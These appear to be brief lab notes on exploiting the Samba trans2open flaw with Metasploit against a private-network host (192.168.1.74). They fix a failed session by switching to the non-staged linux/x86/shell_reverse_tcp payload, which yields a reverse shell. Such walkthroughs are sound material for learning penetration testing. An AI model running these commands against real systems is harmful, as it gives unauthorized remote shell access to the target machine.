



> search trans2open

> use exploit/linux/samba/trans2open
> options
> set rhost 192.168.1.74
> info

> run

=> Session is open but not working !
=> Because of payload
> options

=> If you can see payload options : something may be wrong with the payload
See what payloads are availble :
> set payload linux/x86/ + double tab

Try non-staged payload for reverse shell :
> set payload linux/x86/shell_reverse_tcp
> options
- good practice : see if options are not erased by new payload !
> run

SUCCESS